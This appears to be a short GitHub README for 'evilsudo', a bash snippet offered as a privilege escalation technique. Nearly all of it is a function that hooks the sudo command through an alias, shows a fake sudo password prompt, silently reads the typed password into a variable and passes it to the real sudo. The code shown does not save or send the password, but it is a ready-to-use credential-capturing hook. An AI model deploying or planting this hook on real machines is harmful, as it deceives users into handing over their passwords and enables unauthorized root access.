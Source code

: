 # evilsudo
`evilsudo` is a privilege escalation technique based on alias'ing ("hooking") the sudo command

# code

```bash
alias sudo=evilsudo
function evilsudo() {
	if [ "$#" -gt "0" ]; then
		rights=$(echo "a" | $(which sudo) -S whoami 2>/dev/null)
		if [ "$rights" == "root" ]; then
			$(which sudo) $@
		else
			original_params=$@
			echo -en "[sudo] password for $(whoami): "
			read -s password
			echo -en "\r"
			cmd=$(echo $password | $(which sudo) -S $original_params)
			echo -e ""
			echo "$cmd"
		fi
	else
		$(which sudo)
	fi
}
#most people ask about it so: the usage of $(which sudo) is because `sudo` is "hooked"
````
